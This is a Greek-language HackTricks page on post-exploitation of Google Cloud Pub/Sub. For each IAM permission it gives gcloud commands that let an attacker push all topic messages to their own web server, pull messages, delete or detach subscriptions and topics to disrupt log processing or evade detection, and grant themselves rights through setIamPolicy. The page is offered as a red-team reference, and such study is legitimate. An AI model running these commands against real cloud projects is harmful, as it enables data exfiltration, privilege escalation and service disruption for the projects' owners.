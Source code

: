 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## Pub/Sub

Για περισσότερες πληροφορίες σχετικά με το Pub/Sub ελέγξτε την ακόλουθη σελίδα:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Δημοσιεύστε ένα μήνυμα σε ένα θέμα, χρήσιμο για να **στείλετε απροσδόκητα δεδομένα** και να ενεργοποιήσετε απροσδόκητες λειτουργίες ή να εκμεταλλευτείτε ευπάθειες:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Χρήσιμο για την αποτροπή μιας συνδρομής από τη λήψη μηνυμάτων, ίσως για την αποφυγή ανίχνευσης.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Χρήσιμο για την αποτροπή μιας συνδρομής από τη λήψη μηνυμάτων, ίσως για την αποφυγή ανίχνευσης.\
Είναι δυνατό να διαγραφεί ένα θέμα ακόμα και με συνδρομές συνδεδεμένες σε αυτό.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Χρησιμοποιήστε αυτή την άδεια για να ενημερώσετε κάποια ρύθμιση του θέματος για να το διακόψετε, όπως `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Δώστε στον εαυτό σας άδεια να εκτελέσετε οποιαδήποτε από τις προηγούμενες επιθέσεις.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Λάβετε όλα τα μηνύματα σε έναν web server:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Δημιουργήστε μια συνδρομή και χρησιμοποιήστε την για να **τραβήξετε μηνύματα**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Η διαγραφή μιας συνδρομής** θα μπορούσε να είναι χρήσιμη για να διακόψει ένα σύστημα επεξεργασίας καταγραφών ή κάτι παρόμοιο:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Χρησιμοποιήστε αυτή την άδεια για να ενημερώσετε κάποια ρύθμιση ώστε τα μηνύματα να αποθηκεύονται σε ένα μέρος που μπορείτε να έχετε πρόσβαση (URL, Big Query table, Bucket) ή απλά για να το διακόψετε.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Δώστε στον εαυτό σας τα απαραίτητα δικαιώματα για να εκτελέσετε οποιαδήποτε από τις προαναφερθείσες επιθέσεις.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Επισυνάψτε ένα schema σε ένα topic ώστε τα μηνύματα να μην το πληρούν και επομένως το topic να διαταραχθεί.\
Αν δεν υπάρχουν schemas, ίσως χρειαστεί να δημιουργήσετε ένα.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Αυτό μπορεί να φαίνεται σαν να διαγράφετε ένα schema και θα μπορείτε να στέλνετε μηνύματα που δεν πληρούν το schema. Ωστόσο, καθώς το schema θα διαγραφεί, κανένα μήνυμα δεν θα εισέλθει πραγματικά στο topic. Επομένως, αυτό είναι **ΑΧΡΗΣΤΟ**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Δώστε στον εαυτό σας τα δικαιώματα που χρειάζονται για να εκτελέσετε οποιαδήποτε από τις προαναφερθείσες επιθέσεις.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Αυτό θα δημιουργήσει ένα snapshot όλων των μη αναγνωρισμένων μηνυμάτων και θα τα επαναφέρει στη συνδρομή. Όχι πολύ χρήσιμο για έναν επιτιθέμενο αλλά εδώ είναι:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}
